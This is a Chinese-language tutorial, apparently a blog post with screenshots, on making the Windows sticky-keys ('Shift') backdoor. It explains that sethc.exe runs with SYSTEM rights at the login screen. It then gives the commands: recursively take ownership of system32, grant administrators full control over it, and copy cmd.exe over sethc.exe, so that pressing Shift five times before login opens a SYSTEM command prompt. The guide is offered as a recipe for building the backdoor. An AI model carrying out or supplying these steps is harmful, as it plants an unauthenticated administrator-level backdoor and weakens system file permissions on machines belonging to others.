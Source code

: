 # **Shift**快捷键的介绍                                   [ ](af://n3)

Windows的粘滞键是 C:\windows\system32\sethc.exe 的程序，  它本是为不方便按组合键的人设计的， Windows系统按5下shift后， Windows就执行了system32下的sethc.exe， 也就是启用了粘滞键

![img](https://img.gyxnb.top/img/clip_image004-168389726300018.gif)

查看此程序的运行权限发现是当前用户

![img](https://img.gyxnb.top/img/clip_image006.gif)

但是当我们未登陆系统(停留在登陆界面)的时候 系统还不知道我们将以哪个用户登陆,所以在这个时候连续按5次 shift后的话系统将会以system用户(具有管理员级别的权限)来运行sethc.exe这个程序

![img](https://img.gyxnb.top/img/clip_image007-168389726300019.jpg)

## **Shift**后门原理                                      [ ](af://n16)

我们可以把cmd.exe这个程序更名称sethc.exe替换掉在登陆界面的时候我们连续按下5吃shift键系统以system权限 就会运行我们的cmd.exe那么我们的cmd.exe就具有了管理员权限了

## **Shift**后门制作                                      [ ](af://n19)

### 1、在命令行行执行以下命令， 为复制cmd.exe为sethc.exe

```
 copy C:\WINDOWS\system32\cmd.exe C:\windows\system32\sethc.exe  
```

但是会提示拒绝访问

![img](https://img.gyxnb.top/img/clip_image008.jpg)

### 2、需要更改文件权限， 如下命令

 

```
takeown /f c:\windows\system32\*.*  /a /r /d y  #注释： 强制将当前目录下的所有文件及文件夹、子文件 夹下的所有者更改为管理员组 (administrators)

cacls c:\windows\system32\*.* /T /E /G administrators:F  #注释：在当前目录下的文件、子文件夹的 NTFS权限上添加管理员组(administrators)完全控制权限(并不删除原有所有NTFS权限设置)  
```

![img](https://img.gyxnb.top/img/clip_image009.jpg)

### 3、执行后就可以进行【 1】步骤的操作的， 成功执行

![img](https://img.gyxnb.top/img/clip_image011.gif)

### 4、在未登陆的情况下按下5次Shift

![img](https://img.gyxnb.top/img/clip_image012.jpg)